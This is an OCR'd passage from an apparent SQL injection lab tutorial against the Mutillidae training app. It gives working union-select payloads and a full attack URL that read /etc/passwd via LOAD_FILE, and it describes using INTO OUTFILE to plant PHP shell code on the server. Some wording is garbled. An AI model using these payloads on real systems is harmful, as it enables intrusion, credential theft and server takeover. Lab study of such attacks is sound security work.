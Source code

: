 ![Alt text](img/23.png)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.176.150/mutillidae/index.php?page=user-info.php&username=sannkar2%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
OUTPUT :

![Alt text](img/26.png)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’)..
